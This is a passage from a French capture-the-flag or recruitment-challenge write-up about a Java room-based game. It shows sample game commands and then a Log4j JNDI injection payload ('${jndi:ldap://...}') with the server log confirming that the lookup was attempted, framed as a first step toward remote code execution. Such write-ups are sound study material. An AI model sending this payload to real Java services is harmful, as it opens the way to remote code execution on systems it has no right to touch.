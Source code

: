 Le jeu permet de se déplacer dans des «pièces» et d'effectuer des
actions:
```
           shop (Key)
            |
spawn -- crossing -- training_room
          |   (Door)
          |        \
pit -- small_room   `- boss_room
```

Une partie simple ressemble à ceci:
```
/move crossing
/move shop
/pickup 0
/move crossing
/interact 0
/move boss_room
# You can interact with a few things in this room:
# 0	Door: An opened door.
# 1	Flag man: A strange man that seems to be carrying a flag around
/interact 1
(Server) Hi, I guess you are here for the flag, right ? (yes/no)
(Network) Sorry, I didn't quite get that, do you want the flag or not ? (yes/no)
(Network) Well... I'm sorry but it's private so I can't really give it to you... Ha, accessors...
```

## Première exécution de code à distance

Puisqu'il s'agit d'un service Java, vérifions qu'il est vulnérable à la
célèbre faille JNDI de Log4j: il semble que oui.
```
% unzip -l ./RecrutementGameSDK-0.17.2/example-plugin/gradle/game-0.31.9-all.jar
...
     2937  2021-03-06 22:12   org/apache/logging/log4j/core/lookup/JndiLookup.class
```

Et dans le jeu:
```
[10/06/2022 xx:47:06] [Internal] [main INFO] Game server started on null
${jndi:ldap://127.0.0.111:9999/object}
2022-06-10 xx:47:20,404 Network thread WARN Error looking up JNDI resource [ldap://127.0.0.111:9999/object]. javax.naming.CommunicationException: 127.0.0.111:9999 [Root exception is java.net.ConnectException: Connection refused]
	at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:253)
	at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at java.naming/com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1616)
	at java.naming/com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2848)
```

On peut aussi vérifier qu'il n'y a pas de pare-feu particulier, le
serveur est bien capable d'initier une connexion vers un serveur qu'on
aurait lancé nous-mêmes.
